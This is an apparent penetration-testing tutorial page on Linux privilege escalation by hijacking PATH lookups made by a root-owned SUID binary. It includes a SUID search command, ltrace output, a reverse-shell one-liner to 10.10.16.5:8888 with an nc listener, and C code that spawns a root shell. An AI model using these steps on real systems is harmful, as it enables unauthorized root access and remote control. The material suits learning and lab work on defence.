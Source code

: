 # PATH Environment Variable
The PATH environment variable contains a list of directories where the shell should try to find programs.

If a program tries to execute another program, but **only specifies the program name**, rather than its **full (absolute) path**, the shell will search the PATH directories until it is found.

Since a user has full control over their PATH variable, we can tell the shell to first look for programs in a directory we can write to.

There are 2 prerequisites for this privilege escalation: 
- Vulnerable files must have a **SUID/SGID** with the owner being **root**.
Find SUID/SGID files on the target:

```console
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
...
-rwsr-sr-x 1 root staff 6883 May 14 2017 /bin/sysinfo
...
```
- This binary file/program tries to execute another program, but only specifies the program name, rather than its full (absolute) path.
If a program tries to execute another program, the name of that program is likely embedded in the executable file as a string. 

We can run **strings**, **strace**, **ltrace** on the executable file to to see how the program is executing.
```console
$ strings /path/to/file
$ ltrace <command>
$ strace -v -f -e execve <command> 2>&1 | grep exec
theseus@ubuntu:/$ ltrace sysinfo
...[snip]...
popen("fdisk -l", "r")                           = 0x55e43e4e9280                 
fgets(fdisk: cannot open /dev/loop0: Permission denied
fdisk: cannot open /dev/loop1: Permission denied
fdisk: cannot open /dev/loop2: Permission denied
fdisk: cannot open /dev/loop3: Permission denied                                                   
fdisk: cannot open /dev/loop4: Permission denied
...[snip]...
```
**popen** is another way to open a process on Linux. The binary is making a call to **fdisk**, which is fine, except that it is doing so without specifying the full path. This leave the binary vulnerable to path hijacking.
## Exploitation
### Method 1:
```console
theseus@ubuntu:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.16.5/8888 0>&1' > fdisk
theseus@ubuntu:/dev/shm$ chmod +x fdisk
```
Don't forget to create listener on local machine
```console
┌─[✗]─[kimkhuongduy@drgon]─[~/Documents/Github/template]
└──╼ $nc -nlvp 8888
listening on [any] 8888 ...

```
### Method 2:
Create a file **fdisk.c** in directory */dev/shm* with the following contents:
```console
int main() {
    setuid(0);
    system("/bin/bash -p");
}
```
*parameter **-p** options to use the Privileged mode (mining SUID bit)*

Compile **fdisk.c** into a file called **fdisk**:
```console
$ gcc -o fdisk fdisk.c
```
Then
```console
theseus@ubuntu:/dev/shm$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
theseus@ubuntu:/dev/shm$ export PATH="/dev/shm:$PATH"
theseus@ubuntu:/dev/shm$ echo $PATH                  
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
theseus@ubuntu:/dev/shm$ sysinfo
```
